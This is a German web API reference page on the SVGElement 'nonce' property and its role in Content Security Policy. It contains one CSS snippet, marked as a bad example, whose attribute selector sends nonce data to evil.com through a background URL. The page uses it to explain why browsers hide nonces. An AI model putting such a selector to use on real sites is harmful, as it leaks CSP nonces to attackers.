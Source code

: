 ```yaml
---
title: "SVGElement: `nonce`-Eigenschaft"
short-title: nonce
slug: Web/API/SVGElement/nonce
l10n:
  sourceCommit: 4d929bb0a021c7130d5a71a4bf505bcb8070378d
---
```


{{APIRef("SVG")}}

Die **`nonce`**-Eigenschaft der [`SVGElement`](/de/docs/Web/API/SVGElement)-Schnittstelle gibt den Nonce zurück, der von der [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) verwendet wird, um zu bestimmen, ob ein bestimmter Abruf zulässig ist.

## Wert

Ein String; der kryptografische Nonce oder ein leerer String, wenn kein Nonce festgelegt ist.

## Beispiele

### Abruf eines Nonce-Wertes

In der Vergangenheit unterstützten nicht alle Browser das `nonce`-IDL-Attribut, daher bestand ein Workaround darin, [`getAttribute`](/de/docs/Web/API/Element/getAttribute) als Fallback zu verwenden:

```js
const svg = document.querySelector("svg");
const nonce = svg.nonce || svg.getAttribute("nonce");

// Modern browsers hide the nonce attribute from getAttribute()
console.log(nonce); // Prefer using `svg.nonce`
```

In jüngeren Browserversionen werden `nonce`-Werte, die auf diese Weise abgerufen werden, jedoch ausgeblendet (es wird ein leerer String zurückgegeben). Die IDL-Eigenschaft (`svg['nonce']`) wird die einzige Möglichkeit sein, auf Nonces zuzugreifen.

Das Ausblenden von Nonces hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen wie diesen CSS-Selektor aus Inhalteeigenschaften zu exfiltrieren:

```css example-bad
svg[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce) eine ähnliche Methode für HTML-Elemente.
- [`nonce` globales Attribut](/de/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}
